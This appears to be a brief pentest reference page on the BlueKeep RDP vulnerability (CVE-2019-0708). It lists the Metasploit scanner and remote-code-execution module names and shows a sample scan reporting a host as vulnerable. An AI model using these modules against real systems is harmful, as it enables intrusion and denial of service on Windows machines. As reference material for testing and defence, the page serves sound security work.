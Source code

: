 ```yaml
---
title : "CVE-2019-0708"
# pre : ' '
description : "Remote Desktop Services Remote Code Execution Vulnerability."
date : 2020-03-23T12:07:45+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-0708 - BlueKeep RDP Remote Windows Kernel Use After Free

The exploit will cause bluescreen by default.

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

### Exploit

```plain
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## Examples

### Scanner example

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

- [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
- [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
